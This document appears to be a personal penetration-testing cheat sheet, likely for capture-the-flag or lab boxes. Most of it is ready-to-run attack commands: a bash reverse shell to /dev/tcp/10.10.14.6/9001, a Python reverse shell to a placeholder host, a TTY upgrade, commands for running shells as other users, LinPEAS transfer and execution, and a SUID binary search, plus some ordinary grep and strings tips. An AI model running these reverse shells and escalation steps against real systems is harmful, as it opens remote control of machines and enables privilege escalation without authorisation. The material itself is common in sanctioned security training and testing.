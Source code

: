 ```sudo -l```

```whoami```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


### Run command as specific user
```
sudo -u USER command
```

### Start shell as specific user
```
sudo -u USER bash -i
```
# Searching through files

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## Search for strings in file (or filesystem)

```
sudo strings /path/to/file
```


## LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

## Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```
